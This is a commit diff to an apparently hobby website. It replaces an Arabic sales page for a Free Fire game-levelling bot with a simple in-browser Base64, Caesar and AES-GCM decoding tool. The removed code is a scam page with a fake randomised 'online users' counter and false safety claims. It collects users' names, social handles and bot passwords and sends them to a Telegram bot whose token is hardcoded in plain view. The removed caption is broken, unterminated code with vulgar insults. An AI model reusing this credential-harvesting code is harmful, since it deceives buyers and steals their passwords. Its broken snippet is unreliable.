

Before and after one commit to roji20112/M311, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 28-1814 px from the top of the page at 72% size. After the commit the page ends 1561 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,251 +1,172 @@
-<!DOCTYPE html>
+<!doctype html>
 <html lang="ar">
 <head>
-<meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>D5M TEAM LVL FF - السيطرة المطلقة</title>
-<link href="https://fonts.googleapis.com/css2?family=Orbitron:wght@400;700&display=swap" rel="stylesheet">
+<meta charset="utf-8"/>
+<meta name="viewport" content="width=device-width,initial-scale=1"/>
+<title>أداة فك التشفير — آمنة وتعليمية</title>
 <style>
-body {
-    margin:0;
-    font-family:'Orbitron', sans-serif;
-    background: linear-gradient(270deg, #0a0f2a, #00152d, #0a0f2a);
-    background-size: 600% 600%;
-    animation: gradientBG 20s ease infinite;
-    color:#fff;
-    display:flex;
-    justify-content:center;
-    padding:20px;
-}
-
-@keyframes gradientBG {
-    0%{background-position:0% 50%;}
-    50%{background-position:100% 50%;}
-    100%{background-position:0% 50%;}
-}
-
-.container{
-    width:100%;
-    max-width:1100px;
-}
-
-h1{
-    font-size:64px;
-    text-align:center;
-    text-shadow: 0 0 20px #00f0ff, 0 0 40px #00f0ff;
-    margin-bottom:50px;
-}
-
-/* Neon Animated Card */
-@keyframes neonBorder {
-    0%{box-shadow: 0 0 15px #00f0ff, 0 0 30px #00f0ff inset;}
-    25%{box-shadow: 0 0 20px #00ffea, 0 0 40px #00ffea inset;}
-    50%{box-shadow: 0 0 25px #ff00ff, 0 0 50px #ff00ff inset;}
-    75%{box-shadow: 0 0 20px #ffea00, 0 0 40px #ffea00 inset;}
-    100%{box-shadow: 0 0 15px #00f0ff, 0 0 30px #00f0ff inset;}
-}
-
-.neon-card{
-    background: rgba(10,15,50,0.85);
-    border-radius:25px;
-    padding:25px;
-    margin:20px 0;
-    border: 2px solid #00f0ff;
-    animation: neonBorder 4s linear infinite;
-    transition: all 0.3s ease;
-}
-.neon-card:hover{
-    transform: scale(1.02);
-}
-
-/* عداد المتصلين */
-#onlineCount{
-    font-size:36px;
-    font-weight:bold;
-    color:#00ffea;
-    text-align:center;
-    text-shadow: 0 0 20px #00ffea, 0 0 40px #00ffea;
-}
-
-/* المميزات */
-.feature-list{
-    list-style:none;
-    padding:0;
-}
-.feature-list li{
-    margin:10px 0;
-    font-size:18px;
-    padding-left:30px;
-    position:relative;
-}
-.feature-list li::before{
-    content:"⭐";
-    position:absolute;
-    left:0;
-}
-
-/* الإدخالات */
-input, button{
-    border:none;
-    border-radius:12px;
-    font-size:16px;
-    padding:14px;
-    margin:10px 0;
-    width:100%;
-}
-
-input{
-    background: rgba(0,21,45,0.8);
-    color:#fff;
-}
-
-button{
-    cursor:pointer;
-    transition:0.3s;
-}
-
-.btn-primary{
-    background:#00f0ff;
-    color:#00152d;
-    font-weight:bold;
-    box-shadow:0 0 8px #00f0ff;
-    padding:15px 30px;
-    margin:5px 0;
-}
-.btn-primary:hover{
-    box-shadow:0 0 35px #00f0ff;
-    transform:scale(1.05);
-}
-
-.footer{
-    margin-top:30px;
-    font-size:14px;
-    color:#88f;
-    text-align:center;
-}
-
-@media(max-width:768px){
-    h1{font-size:48px;}
-    .neon-card{font-size:16px; padding:20px;}
-    #onlineCount{font-size:28px;}
-}
+  body{font-family:system-ui,Segoe UI,Arial;padding:18px;max-width:900px;margin:auto;color:#111}
+  h1{font-size:20px}
+  .card{border:1px solid #ddd;padding:12px;border-radius:8px;margin-bottom:12px;background:#fafafa}
+  label{display:block;margin:8px 0 4px}
+  textarea,input,select{width:100%;padding:8px;border:1px solid #ccc;border-radius:6px}
+  button{padding:8px 12px;margin-top:8px}
+  pre{background:#111;color:#0f0;padding:10px;border-radius:6px;overflow:auto}
+  .warn{color:#a00;font-weight:600}
 </style>
 </head>
 <body>
+  <h1>أداة فك التشفير (آمنة — تشغيل محلي)</h1>
+  <p class="warn">تنبيه: لا تستعمل هذه الأداة لكسر تشفير لبيانات ما تملكها أو بدون إذن — هذا غير قانوني. الأداة تساعدك فقط على فك تشفير عندما تملك المفتاح أو تريد تجربة تعليمية.</p>
 
-<div class="container">
+  <div class="card">
+    <h3>1) Base64 — ترميز / فك ترميز</h3>
+    <label>النص (Base64 أو عادي):</label>
+    <textarea id="b64_input" rows="4" placeholder="أدخل نص أو Base64"></textarea>
+    <div style="display:flex;gap:8px;margin-top:6px">
+      <button onclick="b64Decode()">فك Base64</button>
+      <button onclick="b64Encode()">رمّز إلى Base64</button>
+    </div>
+    <label>الناتج:</label>
+    <pre id="b64_out"></pre>
+  </div>
 
-<h1>D5M TEAM LVL FF</h1>
+  <div class="card">
+    <h3>2) Caesar Cipher (تعليمي)</h3>
+    <label>النص المشفّر/العادي:</label>
+    <textarea id="caesar_input" rows="3"></textarea>
+    <label>المفتاح (shift — رقم):</label>
+    <input id="caesar_key" type="number" value="3"/>
+    <div style="display:flex;gap:8px;margin-top:6px">
+      <button onclick="caesarDecrypt()">فك التشفير</button>
+      <button onclick="caesarEncrypt()">شفّر</button>
+    </div>
+    <label>الناتج:</label>
+    <pre id="caesar_out"></pre>
+  </div>
 
-<!-- عداد المتصلين -->
-<div class="neon-card">
-<h2>👥 عدد الأشخاص المتصلين الآن</h2>
-<p id="onlineCount">0</p>
-</div>
+  <div class="card">
+    <h3>3) AES‑GCM (مضمون — تحتاج كلمة سر صحيحة)</h3>
+    <p>صيغة الاستخدام: عندما تشفير، احفظ الـ <strong>iv</strong> (12 بايت) و <strong>salt</strong> (مثلاً 16 بايت). هنا نفترض أن الـ ciphertext وارد Base64 ويكون: <code>salt:iv:ciphertext</code> مفصول بنقطتين (<code>:</code>).</p>
 
-<!-- مميزات البوت -->
-<div class="neon-card">
-<h2>⭐ مميزات بوت D5M TEAM</h2>
-<ul class="feature-list">
-<li>تقدم فوري ومستمر بدون الحاجة للاتصال بالإنترنت.</li>
-<li>آمنة 100%، لا خطر من الحظر أو تعليق الحساب.</li>
-<li>يحافظ على جميع رتبك ومستواك مهما طالت مدة الاستخدام.</li>
-<li>واجهة واحدة سهلة الاستخدام، كل شيء بضغطة زر.</li>
-<li>إشعارات فورية لكل تقدم في اللعبة.</li>
-<li>تحكم كامل وسريع في البوت: رفع مستويات، ضبط السرعة والمهارة.</li>
-<li>تصميم أنيق ومرتب يركز على كل نقطة مهمة للمشتري.</li>
-</ul>
-</div>
+    <label>أدخل (salt:iv:ciphertext) بالـ Base64 لكل جزئية:</label>
+    <textarea id="aes_input" rows="3" placeholder="مثال: base64(salt):base64(iv):base64(ciphertext)"></textarea>
 
-<!-- بيانات المستخدم -->
-<div class="neon-card">
-<h2>✏️ املأ بياناتك</h2>
-<input type="text" id="fullname" placeholder="الاسم الكامل">
-<input type="text" id="platform" placeholder="منصة التواصل (Instagram/Telegram)">
-<input type="text" id="socialUser" placeholder="يوزر التواصل">
-<input type="text" id="botUser" placeholder="اسم المستخدم للبوت">
-<input type="password" id="botPass" placeholder="كلمة المرور للبوت">
-</div>
+    <label>كلمة السر (passphrase):</label>
+    <input id="aes_pass" type="password"/>
 
-<!-- الدفع -->
-<div class="neon-card">
-<h2>💰 الدفع عبر Binance</h2>
-<button class="btn-primary" id="buyBtn">اشترِ الآن</button>
-<p style="font-size:14px; color:#88f;">بعد الدفع، قم برفع إثبات الدفع هنا لإرسال طلبك للمطور.</p>
-<input type="file" id="proofFile" accept="image/*">
-<button class="btn-primary" id="sendProofBtn">إرسال إثبات الدفع</button>
-</div>
+    <label>خيارات PBKDF2 iterations (افتراضي 100000):</label>
+    <input id="aes_iters" type="number" value="100000"/>
 
-<!-- تواصل مباشر -->
-<div class="neon-card">
-<h2>📩 تواصل مباشر مع المطور</h2>
-<button class="btn-primary" onclick="window.open('https://t.me/d5mxx','_blank')">Telegram Direct</button>
-<button class="btn-primary" onclick="window.open('https://www.instagram.com/d5mxh','_blank')">Instagram Direct</button>
-</div>
+    <div style="display:flex;gap:8px;margin-top:6px">
+      <button onclick="aesDecrypt()">فك AES‑GCM</button>
+    </div>
 
-<footer class="footer">© جميع الحقوق محفوظة – D5MLVLFF</footer>
+    <label>الناتج (نص مفكوك أو خطأ):</label>
+    <pre id="aes_out"></pre>
+    <p style="font-size:13px;color:#444">ملاحظة: إذا تلقيت خطأ مصادقة (Authentication failed) فهذا يعني أن كلمة السر أو الـ iv أو الـ salt غير صحيحة.</p>
+  </div>
 
-</div>
+  <div class="card">
+    <h3>4) أدوات مساعدة</h3>
+    <button onclick="clearAll()">نظف الكل</button>
+  </div>
 
 <script>
-const BOT_TOKEN="7710816011:AAHV5ybc-Hwet8IdL1TwbJfWYhmsxxG2T_8";
-const ADMIN_ID="6251932709";
-const PAYMENT_LINK="https://s.binance.com/MLrHuEhu";
+/* ---------- Base64 ---------- */
+function b64Decode(){
+  const v = document.getElementById('b64_input').value.trim();
+  try{
+    // محاولة فك Base64 إلى نص UTF-8
+    const dec = atob(v);
+    // تحويل bytes إلى string آمن
+    const str = decodeURIComponent(Array.from(dec).map(c=> '%' + ('00' + c.charCodeAt(0).toString(16)).slice(-2)).join(''));
+    document.getElementById('b64_out').textContent = str;
+  }catch(e){
+    // إذا فشل atob، نعطي تمثيل بايت أو رسالة
+    try{
+      const bytes = Uint8Array.from(v.split(',').map(s=>parseInt(s)));
+      document.getElementById('b64_out').textContent = new TextDecoder().decode(bytes);
+    }catch(_){
+      document.getElementById('b64_out').textContent = 'خطأ فك Base64: ' + e.message;
+    }
+  }
+}
+function b64Encode(){
+  const v = document.getElementById('b64_input').value;
+  try{
+    const enc = encodeURIComponent(v).replace(/%([0-9A-F]{2})/g, function(match, p1){ return String.fromCharCode('0x' + p1);});
+    const b = btoa(enc);
+    document.getElementById('b64_out').textContent = b;
+  }catch(e){ document.getElementById('b64_out').textContent = 'خطأ ترميز Base64: ' + e.message; }
+}
 
-// عداد متصلين وهمي متغير
-let onlineCount = Math.floor(Math.random()*200)+50;
-function updateOnlineCount(){
-    let change = Math.floor(Math.random()*6)+2;
-    onlineCount += Math.random()<0.6? change : -change;
-    if(onlineCount<50) onlineCount=50;
-    if(onlineCount>1000) onlineCount=1000;
-    document.getElementById('onlineCount').innerText=onlineCount;
+/* ---------- Caesar cipher ---------- */
+function caesarShift(s, shift){
+  const a = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz';
+  return s.split('').map(ch=>{
+    const i = a.indexOf(ch);
+    if(i===-1) return ch;
+    const base = (i < 26) ? 0 : 26;
+    const idx = (i - base + shift + 26) % 26;
+    return a[base + idx];
+  }).join('');
 }
-setInterval(updateOnlineCount,3000);
+function caesarDecrypt(){ const k = parseInt(document.getElementById('caesar_key').value) || 0; document.getElementById('caesar_out').textContent = caesarShift(document.getElementById('caesar_input').value, -k); }
+function caesarEncrypt(){ const k = parseInt(document.getElementById('caesar_key').value) || 0; document.getElementById('caesar_out').textContent = caesarShift(document.getElementById('caesar_input').value, k); }
 
-// فتح رابط الدفع فقط
-document.getElementById('buyBtn').onclick = ()=>{
-    window.open(PAYMENT_LINK, "_blank");
-    alert("✅ تم توجيهك مباشرة إلى صفحة الدفع على Binance.\nبعد الدفع، يرجى رفع إثبات الدفع هنا.");
-};
+/* ---------- AES-GCM using Web Crypto API ---------- */
+/*
+ Expect input: base64(salt):base64(iv):base64(ciphertext)
+ Derive key: PBKDF2 (SHA-256) with given iterations -> AES-GCM 256
+*/
+function b64ToBuf(b64){ return Uint8Array.from(atob(b64), c=>c.charCodeAt(0)); }
+function bufToStr(buf){ try{ return new TextDecoder().decode(buf); }catch(e){ return '[binary data]'; } }
 
-// إرسال إثبات الدفع للبوت فقط بعد رفع الصورة
-document.getElementById('sendProofBtn').onclick = ()=>{
-    const fileInput = document.getElementById('proofFile');
-    const fullname=document.getElementById('fullname').value;
-    const platform=document.getElementById('platform').value;
-    const socialUser=document.getElementById('socialUser').value;
-    const botUser=document.getElementById('botUser').value;
-    const botPass=document.getElementById('botPass').value;
+async function aesDecrypt(){
+  const input = document.getElementById('aes_input').value.trim();
+  const pass = document.getElementById('aes_pass').value;
+  const iters = parseInt(document.getElementById('aes_iters').value) || 100000;
+  if(!input || !pass){ document.getElementById('aes_out').textContent = 'أدخل السلسلة وكلمة السر.'; return; }
 
-    if(!fileInput.files.length){
-        alert("❌ الرجاء رفع صورة إثبات الدفع بعد الانتهاء من الدفع على Binance");
-        return;
-    }
-    if(!fullname||!platform||!socialUser||!botUser||!botPass){
-        alert("❌ الرجاء تعبئة كل الحقول قبل الإرسال");
-        return;
-    }
+  const parts = input.split(':');
+  if(parts.length !== 3){ document.getElementById('aes_out').textContent = 'المدخل يجب أن يكون بصيغة salt:iv:ciphertext كل جزء Base64.'; return; }
 
-    const caption=`🚨 طلب جديد 🚨
-👤HALA MADRID الاسم: ${fullname}
-🌐 المنصة: ${platform}
-🆔 يوزر التواصل: ${socialUser}
-🔑  زكك شباب: ${botUser}
-🔒 انا قحبة
-    const formData = new FormData();
-    formData.append("chat_id", ADMIN_ID);
-    formData.append("caption", caption);
-    formData.append("photo", fileInput.files[0]);
+  try{
+    const salt = b64ToBuf(parts[0]);
+    const iv = b64ToBuf(parts[1]);
+    const ct = b64ToBuf(parts[2]);
 
-    fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`,{
-        method:"POST",
-        body: formData
-    })
-    .then(res => res.ok ? alert("✅ سيتم التحقق من معلوماتك وسيتم التواصل معك تلقائيٱ") : alert("❌ فشل الإرسال"))
-    .catch(err => alert("❌ خطأ في الإرسال: "+err));
-};
+    // اشتقاق المفتاح
+    const passKey = await crypto.subtle.importKey('raw', new TextEncoder().encode(pass), 'PBKDF2', false, ['deriveKey']);
+    const key = await crypto.subtle.deriveKey(
+      { name: 'PBKDF2', salt: salt, iterations: iters, hash: 'SHA-256' },
+      passKey,
+      { name: 'AES-GCM', length: 256 },
+      false,
+      ['decrypt']
+    );
+
+    // فك التشفير
+    const plain = await crypto.subtle.decrypt({ name: 'AES-GCM', iv: iv }, key, ct);
+    const text = bufToStr(new Uint8Array(plain));
+    document.getElementById('aes_out').textContent = text;
+  }catch(err){
+    document.getElementById('aes_out').textContent = 'خطأ فك AES: ' + (err.message || err.toString());
+  }
+}
+
+/* ---------- Helpers ---------- */
+function clearAll(){
+  document.getElementById('b64_input').value = '';
+  document.getElementById('b64_out').textContent = '';
+  document.getElementById('caesar_input').value = '';
+  document.getElementById('caesar_out').textContent = '';
+  document.getElementById('aes_input').value = '';
+  document.getElementById('aes_pass').value = '';
+  document.getElementById('aes_out').textContent = '';
+  document.getElementById('status').textContent = 'جاهز';
+}
 </script>
-
 </body>
 </html>
```
